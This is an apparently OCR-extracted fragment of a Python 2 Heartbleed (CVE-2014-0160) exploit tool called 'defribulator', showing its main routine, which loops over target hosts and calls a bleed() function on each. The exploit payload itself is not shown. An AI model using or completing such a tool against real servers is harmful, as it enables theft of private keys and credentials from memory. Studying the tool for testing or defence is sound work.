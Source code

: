             return True

        else:

            return False



def main():



    print "\ndefribulator v1.20"

    print "A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)"

    allresults = ''

                    

    # if a file is specified, loop through file

    if opts.filein:

        fileIN = open(opts.filein, "r")

        

        for line in fileIN:

            targetinfo = line.strip().split(":")

            if len(targetinfo) > 1:

                allresults = bleed(targetinfo[0], int(targetinfo[1]))

            else:

                allresults = bleed(targetinfo[0], opts.port)

            

            if allresults and (not opts.donotdisplay):

                print '%s' % (allresults)



        fileIN.close()



    else:

        if len(args) < 1:

            options.print_help()

            return

        allresults = bleed(args[0], opts.port)

        if allresults and (not opts.donotdisplay):

            print '%s' % (allresults)

    
